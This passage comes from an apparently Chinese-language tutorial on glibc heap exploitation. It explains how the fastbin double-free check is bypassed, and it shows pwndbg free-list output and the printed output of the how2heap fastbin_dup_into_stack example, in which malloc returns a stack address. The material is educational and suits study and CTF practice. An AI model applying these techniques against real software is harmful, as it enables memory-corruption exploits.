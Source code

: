 其中 `chunk A --> chunk B`。

接下来再次释放 a，发现这次没发生报错，且形成了如下的 free list：

```
pwndbg> fastbins 
fastbins
0x20: 0x602000 —▸ 0x602020 ◂— 0x602000
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

`chunk A --> chunk B <-- chunk A`

这样就可以绕过 fastbin 的 double free 检查了，原因如下：

> fastbin 可以看作一个 LIFO 的栈，使用单链表实现，通过 `fastbin->fd` 遍历 fastbins。由于 free 的过程会对 free list 做检查，我们不能连续两次 free 同一个 chunk，所以在这两次 free 之间增加了一次对其他 chunk 的 free 过程，从而绕过检查。再 malloc 三次，就在同一个地址 malloc 了两次，也就有了两个指向同一块内存区域的指针。

## fastbin_dup_into_stack

### 输出

```
$ ./glibc_2.25/fastbin_dup_into_stack 
This file extends on fastbin_dup.c by tricking malloc into
returning a pointer to a controlled location (in this case, the stack).
The address we want malloc() to return is 0x7fffffffdca8.
Allocating 3 buffers.
1st malloc(8): 0x603010
2nd malloc(8): 0x603030
3rd malloc(8): 0x603050
Freeing the first one...
If we free 0x603010 again, things will crash because 0x603010 is at the top of the free list.
So, instead, we'll free 0x603030.
Now, we can free 0x603010 again, since it's not the head of the free list.
Now the free list has [ 0x603010, 0x603030, 0x603010 ]. We'll now carry out our attack by modifying data at 0x603010.
1st malloc(8): 0x603010
2nd malloc(8): 0x603030
Now the free list has [ 0x603010 ].
Now, we have access to 0x603010 while it remains at the head of the free list.
so now we are writing a fake free size (in this case, 0x20) to the stack,
so that malloc will think there is a free chunk there and agree to
return a pointer to it.
Now, we overwrite the first 8 bytes of the data at 0x603010 to point right before the 0x20.
3rd malloc(8): 0x603010, putting the stack address on the free list
4th malloc(8): 0x7fffffffdca8
```
